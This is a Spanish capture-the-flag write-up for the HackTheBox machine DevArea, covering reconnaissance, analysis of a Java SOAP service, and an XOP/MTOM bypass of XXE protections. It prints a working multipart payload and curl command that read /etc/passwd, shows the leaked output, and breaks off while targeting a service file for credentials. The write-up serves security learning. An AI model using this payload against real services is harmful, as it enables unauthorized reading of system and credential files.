








# DevArea HackTheBox (Intermediate)

# Contexto de la maquina

## Trayectoria DevArea

<figure><figcaption></figcaption></figure>

## Descripción

La máquina presenta un entorno Linux con múltiples servicios expuestos, incluyendo FTP, HTTP y un servicio SOAP basado en Java. El reto gira en torno a la explotación de un servicio web vulnerable que permite lectura arbitraria de archivos mediante un bypass de protecciones XML, seguido de una cadena de explotación que conduce a ejecución remota de código y escalada de privilegios.

**Objetivo**

- Obtener acceso inicial al sistema mediante explotación de servicios expuestos.
- Escalar privilegios hasta obtener acceso como root.

**Tipo de máquina**

- Linux
- Web / Servicios SOAP
- Escalada local

**Habilidades y técnicas evaluadas**

- Enumeración de servicios
- Análisis de binarios Java (.jar)
- SOAP y servicios web (WSDL)
- XXE bypass mediante XOP/MTOM
- File Read / LFI
- Enumeración de credenciales
- Explotación de CVE (RCE)
- Escalada de privilegios mediante malas configuraciones
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

# Escaneo de puertos

Comenzamos realizando un escaneo completo de puertos TCP para identificar los servicios expuestos en la máquina objetivo.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Una vez identificados los puertos abiertos, lanzamos un escaneo más detallado sobre ellos para obtener versiones y scripts por defecto.

```shell
nmap -sCV -p<PORTS> <IP>
```

Resultado:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-30 03:16 -0400
Nmap scan report for 10.129.24.40
Host is up (0.067s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Sep 22  2025 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.228
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 83:13:6b:a1:9b:28:fd:bd:5d:2b:ee:03:be:9c:8d:82 (ECDSA)
|_  256 0a:86:fa:65:d1:20:b4:3a:57:13:d1:1a:c2:de:52:78 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://devarea.htb/
|_http-server-header: Apache/2.4.58 (Ubuntu)
8080/tcp open  http    Jetty 9.4.27.v20200227
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.27.v20200227)
8500/tcp open  http    Golang net/http server
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 500 Internal Server Error
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 30 Mar 2026 07:17:20 GMT
|     Content-Length: 64
|     This is a proxy server. Does not respond to non-proxy requests.
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 500 Internal Server Error
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 30 Mar 2026 07:17:05 GMT
|     Content-Length: 64
|_    This is a proxy server. Does not respond to non-proxy requests.
8888/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Hoverfly Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8500-TCP:V=7.98%I=7%D=3/30%Time=69CA2371%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,E9,"HTTP/1\.0\x20500\x20Internal\x20Server\x20
SF:Error\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Typ
SF:e-Options:\x20nosniff\r\nDate:\x20Mon,\x2030\x20Mar\x202026\x2007:17:05
SF:\x20GMT\r\nContent-Length:\x2064\r\n\r\nThis\x20is\x20a\x20proxy\x20ser
SF:ver\.\x20Does\x20not\x20respond\x20to\x20non-proxy\x20requests\.\n")%r(
SF:HTTPOptions,E9,"HTTP/1\.0\x20500\x20Internal\x20Server\x20Error\r\nCont
SF:ent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options:\x2
SF:0nosniff\r\nDate:\x20Mon,\x2030\x20Mar\x202026\x2007:17:05\x20GMT\r\nCo
SF:ntent-Length:\x2064\r\n\r\nThis\x20is\x20a\x20proxy\x20server\.\x20Does
SF:\x20not\x20respond\x20to\x20non-proxy\x20requests\.\n")%r(RTSPRequest,6
SF:7,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x
SF:20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%
SF:r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\
SF:n400\x20Bad\x20Request")%r(FourOhFourRequest,E9,"HTTP/1\.0\x20500\x20In
SF:ternal\x20Server\x20Error\r\nContent-Type:\x20text/plain;\x20charset=ut
SF:f-8\r\nX-Content-Type-Options:\x20nosniff\r\nDate:\x20Mon,\x2030\x20Mar
SF:\x202026\x2007:17:20\x20GMT\r\nContent-Length:\x2064\r\n\r\nThis\x20is\
SF:x20a\x20proxy\x20server\.\x20Does\x20not\x20respond\x20to\x20non-proxy\
SF:x20requests\.\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\
SF:r\n\r\n400\x20Bad\x20Request")%r(SIPOptions,67,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnect
SF:ion:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Socks5,67,"HTTP/1\.1\x20
SF:400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\
SF:r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
Service Info: Host: _; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.38 seconds
```

A partir del escaneo identificamos varios servicios relevantes:

- **FTP (21)** → Permite autenticación anónima
- **SSH (22)** → Acceso remoto potencial
- **HTTP (80)** → Redirige a `devarea.htb`
- **8080** → Servicio basado en Jetty
- **8500** → Proxy en Golang (no responde a peticiones normales)
- **8888** → Dashboard (Hoverfly)

Antes de continuar, añadimos el dominio identificado (`devarea.htb`) al fichero `/etc/hosts` para poder resolverlo correctamente:

```shell
nano /etc/hosts

#Dentro del nano
<IP>            devarea.htb
```
# Enumeración del servicio FTP

Durante el escaneo observamos que el servicio FTP permite **login anónimo**, lo cual suele ser un vector interesante de enumeración.

<figure><figcaption></figcaption></figure>

Accedemos al servicio:

```shell
ftp anonymous@devarea.htb
```

Respuesta:

```
Connected to devarea.htb.
220 (vsFTPd 3.0.5)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Una vez dentro, listamos el contenido:

```
ftp> ls
229 Entering Extended Passive Mode (|||46654|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp       6445030 Sep 22  2025 employee-service.jar
226 Directory send OK.
```

Observamos un archivo interesante:

- `employee-service.jar`

Procedemos a descargarlo:

```shell
get employee-service.jar
```
# Enumeración web inicial

Antes de analizar el archivo descargado, accedemos al servicio web en:

```
URL = http://devarea.htb/
```

Respuesta:

<figure><figcaption></figcaption></figure>

La aplicación web no presenta funcionalidad especialmente interesante a simple vista, por lo que continuamos con el análisis del archivo `.jar`.
# Análisis de `employee-service.jar`

Creamos un directorio de trabajo y extraemos el contenido del archivo:

```shell
mkdir JAR
cd JAR/
mv ../employee-service.jar .
jar xf employee-service.jar
ls -la
```

Respuesta:

```
drwxrwxr-x kali kali 4.0 KB Mon Mar 30 03:56:16 2026  .
drwxrwxr-x kali kali 4.0 KB Mon Mar 30 03:55:37 2026  ..
drwxrwxr-x kali kali 4.0 KB Tue Aug 23 20:58:22 2016  com
drwxrwxr-x kali kali 4.0 KB Sun Sep 21 15:50:36 2025  htb
drwxrwxr-x kali kali 4.0 KB Fri Feb 22 14:53:36 2013  javax
drwxrwxr-x kali kali 4.0 KB Mon Mar 30 03:56:04 2026  META-INF
drwxrwxr-x kali kali 4.0 KB Tue Sep 16 20:07:36 2025  mozilla
drwxrwxr-x kali kali 4.0 KB Tue Sep 16 20:08:26 2025  org
drwxrwxr-x kali kali 4.0 KB Tue Jun 23 17:32:16 2020  OSGI-INF
drwxrwxr-x kali kali 4.0 KB Tue Jun 23 17:32:16 2020  schemas
.rw-rw-r-- kali kali 2.0 KB Thu Feb 27 12:39:04 2020  about.html
.rw-rw-r-- kali kali 542 B  Thu Feb 27 12:37:22 2020  jetty-dir.css
```
## Estructura relevante

Dentro del contenido extraído, encontramos una estructura que parece corresponder a la lógica principal de la aplicación:

```
htb/devarea/
├── EmployeeService.class
├── EmployeeServiceImpl.class
├── Report.class
└── ServerStarter.class
```

La clase más relevante es `ServerStarter`, ya que suele encargarse de inicializar el servicio.
## Análisis de bytecode

Para analizar los archivos `.class`, utilizamos la herramienta `javap`, que nos permite inspeccionar el bytecode y el pool de constantes:

```shell
javap -c -p -constants -verbose htb/devarea/<FILE>.class
```

Durante el análisis, identificamos una cadena relevante dentro del _constant pool_:

```java
// Constante #9 en el pool de constantes
String #39 = "http://0.0.0.0:8080/employeeservice"
```
## Información obtenida

A partir de esta información podemos inferir varios aspectos clave del servicio:

- **Framework utilizado**: Apache CXF (implementación de servicios web SOAP basada en JAX-WS)
- **Endpoint expuesto**:

```
http://0.0.0.0:8080/employeeservice
```

- **Método expuesto**:

 ```java
 submitReport(Report report)
 ```
## Estructura del objeto `Report`

El objeto que recibe el servicio tiene la siguiente estructura:

```java
Report {
    String employeeName;
    String department;
    String content;
    boolean confidential;
}
```
## Comportamiento del servicio

El comportamiento del método depende del valor del campo `confidential`:

- Si `confidential = true`:

```java
"Report marked confidential. Thank you, {employeeName}"
```

- Si `confidential = false`:

```java
"Report received from {employeeName}. Department: {department}. Content: {content}"
```

Esto es especialmente interesante ya que el campo `content` es reflejado directamente en la respuesta, lo que puede abrir la puerta a vectores de ataque.
## Enumeración del Servicio SOAP

Para validar la estructura del servicio, obtenemos el WSDL:

```shell
curl 'http://devarea.htb:8080/employeeservice?wsdl'
```

El WSDL confirma:

- Namespace: `http://devarea.htb/`
- Operación disponible: `submitReport`
- Tipo utilizado: `report`
## Hipótesis Inicial: XXE Clásico

Dado que estamos ante un servicio SOAP que procesa **XML**, planteamos inicialmente la posibilidad de una vulnerabilidad **XXE (XML External Entity)**.
### Prueba con DTD externo

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope ...>
   <employeeName>&xxe;</employeeName>
</soapenv:Envelope>
```

Respuesta:

```
Error reading XMLStreamReader: Received event DTD, instead of START_ELEMENT or END_ELEMENT.
```

Esto indica que el parser XML **rechaza explícitamente DTDs**, por lo que el servicio está correctamente configurado para mitigar XXE clásico.
## Identificación del Vector Alternativo: XOP/MTOM

<figure><figcaption></figcaption></figure>

### Contexto Técnico

**MTOM (Message Transmission Optimization Mechanism)** es un estándar W3C que optimiza el envío de datos binarios en mensajes SOAP. Permite que los datos binarios se envíen como adjuntos MIME en lugar de estar codificados en base64 dentro del XML.

**XOP (XML-binary Optimized Packaging)** es el mecanismo subyacente que permite referenciar estos adjuntos desde el XML mediante el elemento `<xop:Include>`.
### ¿Por qué esto puede ser vulnerable?

Apache CXF implementa MTOM/XOP según la especificación. Sin embargo, **históricamente han existido vulnerabilidades** donde el procesador no valida correctamente las URIs en el atributo `href` de `<xop:Include>`. Esto permite:

1. **Inclusión de archivos locales** mediante `file:///ruta/al/archivo`
2. **SSRF (Server-Side Request Forgery)** mediante `http://localhost:puerto`
3. **Path traversal** mediante rutas relativas `../../etc/passwd`
### Justificación Técnica

La vulnerabilidad surge porque el procesador XOP resuelve la URI especificada en `href` y **incluye el contenido en el mensaje XML** antes de que el parser XML aplique sus restricciones de seguridad. Esto crea un bypass a las protecciones contra XXE:

- El DTD sigue estando prohibido → XXE clásico no funciona
- Pero `<xop:Include>` no requiere DTD → puede ejecutarse sin restricciones

**En otras palabras**: MTOM/XOP permite "inyectar" contenido externo (archivos, URLs) en el XML procesado, eludiendo las protecciones del parser XML principal.
## Construcción del Payload

### Estructura MTOM/XOP

Un mensaje MTOM tiene formato **multipart/related**:

```
Content-Type: multipart/related; type="application/xop+xml"; boundary="MIME_boundary"

--MIME_boundary
Content-Type: application/xop+xml
Content-ID: <rootpart@soap>

[XML con referencias XOP]

--MIME_boundary
[adjuntos binarios opcionales]
--MIME_boundary--
```
## Payload de prueba (lectura de `/etc/passwd`)

Para validar la hipótesis de inclusión de archivos mediante XOP/MTOM, construimos un payload que referencia directamente un archivo local del sistema (`/etc/passwd`).

```shell
# Probar con un SOAP message que incluya MTOM
cat > mtom_test.xml << 'EOF'
Content-Type: multipart/related; type="application/xop+xml"; boundary="MIME_boundary"; start="<rootpart@soap>"; start-info="text/xml"

--MIME_boundary
Content-Type: application/xop+xml; charset=UTF-8; type="text/xml"
Content-Transfer-Encoding: binary
Content-ID: <rootpart@soap>

<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
                  xmlns:dev="http://devarea.htb/"
                  xmlns:xop="http://www.w3.org/2004/08/xop/include">
   <soapenv:Header/>
   <soapenv:Body>
      <dev:submitReport>
         <arg0>
            <confidential>false</confidential>
            <content>
               <xop:Include href="file:///etc/passwd"/>
            </content>
            <department>IT</department>
            <employeeName>test</employeeName>
         </arg0>
      </dev:submitReport>
   </soapenv:Body>
</soapenv:Envelope>

--MIME_boundary--
EOF
```

Una vez generado el payload, lo enviamos al endpoint SOAP utilizando `curl`:

```shell
curl -X POST http://devarea.htb:8080/employeeservice \
  -H "Content-Type: multipart/related; type=\"application/xop+xml\"; boundary=\"MIME_boundary\"; start=\"<rootpart@soap>\"" \
  --data-binary @mtom_test.xml
```

Respuesta:

```
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><ns2:submitReportResponse xmlns:ns2="http://devarea.htb/"><return>Report received from test. Department: IT. Content: cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovcnVuL2lyY2Q6L3Vzci9zYmluL25vbG9naW4KX2FwdDp4OjQyOjY1NTM0Ojovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4Kbm9ib2R5Ong6NjU1MzQ6NjU1MzQ6bm9ib2R5Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLW5ldHdvcms6eDo5OTg6OTk4OnN5c3RlbWQgTmV0d29yayBNYW5hZ2VtZW50Oi86L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC10aW1lc3luYzp4Ojk5Nzo5OTc6c3lzdGVtZCBUaW1lIFN5bmNocm9uaXphdGlvbjovOi91c3Ivc2Jpbi9ub2xvZ2luCm1lc3NhZ2VidXM6eDoxMDE6MTAyOjovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC1yZXNvbHZlOng6OTkyOjk5MjpzeXN0ZW1kIFJlc29sdmVyOi86L3Vzci9zYmluL25vbG9naW4KcG9sbGluYXRlOng6MTAyOjE6Oi92YXIvY2FjaGUvcG9sbGluYXRlOi9iaW4vZmFsc2UKcG9sa2l0ZDp4Ojk5MTo5OTE6VXNlciBmb3IgcG9sa2l0ZDovOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c2xvZzp4OjEwMzoxMDQ6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgp1dWlkZDp4OjEwNDoxMDU6Oi9ydW4vdXVpZGQ6L3Vzci9zYmluL25vbG9naW4KdGNwZHVtcDp4OjEwNToxMDc6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgp0c3M6eDoxMDY6MTA4OlRQTSBzb2Z0d2FyZSBzdGFjaywsLDovdmFyL2xpYi90cG06L2Jpbi9mYWxzZQpsYW5kc2NhcGU6eDoxMDc6MTA5OjovdmFyL2xpYi9sYW5kc2NhcGU6L3Vzci9zYmluL25vbG9naW4KZnd1cGQtcmVmcmVzaDp4Ojk4OTo5ODk6RmlybXdhcmUgdXBkYXRlIGRhZW1vbjovdmFyL2xpYi9md3VwZDovdXNyL3NiaW4vbm9sb2dpbgp1c2JtdXg6eDoxMDg6NDY6dXNibXV4IGRhZW1vbiwsLDovdmFyL2xpYi91c2JtdXg6L3Vzci9zYmluL25vbG9naW4Kc3NoZDp4OjEwOTo2NTUzNDo6L3J1bi9zc2hkOi91c3Ivc2Jpbi9ub2xvZ2luCmRldl9yeWFuOng6MTAwMToxMDAxOjovaG9tZS9kZXZfcnlhbjovYmluL2Jhc2gKZnRwOng6MTEwOjExMTpmdHAgZGFlbW9uLCwsOi9zcnYvZnRwOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3dhdGNoOng6OTg0Ojk4NDo6L29wdC9zeXN3YXRjaDovdXNyL3NiaW4vbm9sb2dpbgpwb3N0Zml4Ong6MTExOjExMjo6L3Zhci9zcG9vbC9wb3N0Zml4Oi91c3Ivc2Jpbi9ub2xvZ2luCl9sYXVyZWw6eDo5OTk6OTg3OjovdmFyL2xvZy9sYXVyZWw6L2Jpbi9mYWxzZQpkaGNwY2Q6eDoxMDA6NjU1MzQ6REhDUCBDbGllbnQgRGFlbW9uLCwsOi91c3IvbGliL2RoY3BjZDovYmluL2ZhbHNlCg==</return></ns2:submitReportResponse></soap:Body></soap:Envelope>
```

Observamos que el contenido del archivo se devuelve dentro del campo `Content`, pero codificado en **Base64**.
## Decodificación del contenido

Procedemos a decodificar manualmente la salida:

```shell
echo 'cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZX.............' | base64 -d -w0
```

Respuesta:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
dev_ryan:x:1001:1001::/home/dev_ryan:/bin/bash
ftp:x:110:111:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
syswatch:x:984:984::/opt/syswatch:/usr/sbin/nologin
postfix:x:111:112::/var/spool/postfix:/usr/sbin/nologin
_laurel:x:999:987::/var/log/laurel:/bin/false
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
```

Confirmamos que la vulnerabilidad permite **lectura arbitraria de archivos locales (LFI)** a través de XOP/MTOM, lo que constituye un bypass efectivo a las protecciones contra XXE clásico.
## Enumeración adicional del sistema

A partir de este punto, continuamos con la enumeración del sistema, centrándonos en la búsqueda de información sensible como credenciales, configuraciones y posibles vectores de ataque adicionales.

Durante esta fase, retomamos un servicio que previamente habíamos identificado en el escaneo inicial:

- Puerto `8888` → interfaz web de **Hoverfly**

Accedemos al servicio mediante:

```
URL = http://devarea.htb:8888/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Observamos un panel de autenticación sin credenciales conocidas, lo que nos permite inferir que:

- No se están utilizando credenciales por defecto
- Las credenciales probablemente están definidas internamente en el sistema, ya sea mediante configuración estática (hardcoded) o variables de entorno
## Búsqueda de credenciales en servicios del sistema

<figure><figcaption></figcaption></figure>

Dado que **Hoverfly** suele ejecutarse como un servicio gestionado por `systemd`, una aproximación lógica es revisar su fichero de configuración en busca de información sensible.

En sistemas Linux, estos servicios suelen definirse en:

```
/etc/systemd/system/
```

Por lo que intentamos leer el siguiente archivo:

```
/etc/systemd/system/hoverfly.service
